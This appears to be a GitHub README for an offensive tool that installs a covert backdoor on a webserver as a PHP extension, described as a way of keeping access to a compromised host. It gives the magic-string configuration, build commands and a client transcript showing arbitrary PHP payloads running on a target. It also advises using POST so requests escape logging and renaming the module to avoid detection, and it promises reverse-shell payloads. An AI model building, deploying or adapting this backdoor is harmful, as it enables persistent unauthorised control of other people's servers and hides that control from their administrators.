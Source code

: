# PHP Backdoor Module

This is an example module for adding a backdoor to the PHP installation on a webserver by adding a PHP module. Very useful for mantaining access to a compromised host.

#Build Instructions

First off, you are going to want to edit the "magic string" (or rather, variable), and method. I have set them to POST, because GET variables get logged. You might want to edit some other things so it doesn't show up as "backdoor".

## Linux
```
        char* method = "_POST"; // HTTP method used
        char* secret_string = "execute"; // magic string
```

## Windows
```
        char* method = "_POST"; // HTTP method used
        char* secret_string = "secret_string"; // magic string
```

And next, we compile. For windows, I link to the articles (original in Russian, mine in English which is basically a translation I did).

##Windows:
[Original Russian Article][russian]

[English 'translation'][english]

##Linux:
`sudo apt-get install php5-dev`  
`phpize && ./configure && make`

# Use Instructions
In client/ I provide an example Python client which allows executing any arbritary PHP payload on the webserver. I also provide some example payloads in client/payloads/ that you may find useful. 

To use the client, you simply do the following.
```
root@unsanitized:~/dev/php-extension-backdoor/client# ./php_module_client.py http://192.168.1.7 secret_squirrels payloads/getuid.php
Starting execution...
uid: 33
Done!
root@unsanitized:~/dev/php-extension-backdoor/client#
```

Planned payloads include a variety of information gathering payloads, some reverse shells, and other useful utilities that I come up with. I will release those as they prove to be stable/useable soon.

# Credits
Original Russian author, and [akamajoris][akamajoris]. All I did was some translation and writing payloads and client because I found them useful. 

[russian]: http://stackoff.ru/pishem-rasshirenie-bekdor-dlya-php/
[english]: http://example.com/
[akamajoris]: https://github.com/akamajoris
